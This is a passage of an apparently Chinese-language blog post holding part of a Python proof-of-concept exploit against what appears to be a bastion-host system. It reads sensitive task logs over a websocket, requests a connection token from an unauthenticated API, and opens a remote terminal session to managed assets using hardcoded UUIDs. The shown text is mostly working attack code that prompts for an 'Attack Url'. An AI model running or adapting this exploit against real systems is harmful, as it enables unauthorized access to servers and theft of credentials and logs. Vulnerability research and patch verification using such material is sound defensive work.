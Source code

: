 ```
                ws = ws_long('ws://{}/ws/ops/tasks/log/'.format(ws))
                ws.connect()
                ws.run_forever()
                ws.close()
            except KeyboardInterrupt:
                ws.close()
    else:
        print("\033[31m[x] 目标漏洞已修复，无法获取敏感日志信息\033[0m")
        sys.exit(0)


def POC_2(target_url, user, asset, system_user):
    if target_url == "" or asset == "" or system_user == "":
        print("\033[31m[x] 请获取 assset 等参数配置\033[0m")
        sys.exit(0)
    data = {"user": user, "asset": asset, "system_user": system_user}
    vuln_url = target_url + "/api/v1/users/connection-token/?user-only=1"
    # vuln_url = target_url + "/api/v1/authentication/connection-token/?user-only=1"

    try:
        response = requests.post(vuln_url, json=data, timeout=5).json()
        print("\033[32m[o] 正在请求：{}\033[0m".format(vuln_url))
        token = response['token']
        print("\033[36m[o] 成功获取Token：{}\033[0m".format(token))
        ws_url = target_url.strip("http://")
        ws_url = "ws://" + ws_url + "/koko/ws/token/?target_id={}".format(token)
        asyncio.get_event_loop().run_until_complete(main_logic(ws_url))

    except Exception as e:
        print("\033[31m[x] 请检查 assset 等参数配置,{}\033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    user = "7c30bef8-61e2-4644-bf90-f7cacd1936f8"
    asset = "2bb3df36-8e63-4ace-9f8f-c77e95ffc549"
    system_user = "abd00340-e9ba-40af-a432-9a85f867b6bb"
    POC_1(target_url)
    POC_2(target_url, user, asset, system_user)
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB8tpNT4ZFVDrH31YqGlSicX6oIheGpHgdMCwniaYlGdNljl4ibWuwLE94UlM85u7dGE7kSgnadHxNzw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB8tpNT4ZFVDrH31YqGlSicX9MVxOaBLtSYiazzS54VNeDGFjzMFCRsHKls4hJ1UD8dVG3BjD7NeibbQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB8tpNT4ZFVDrH31YqGlSicXricKoGw8T9JDwUAslKA82NQFk28p9HuN0sqle8VVicj0PAicdW8lJqicHA/640?wx_fmt=png)

  
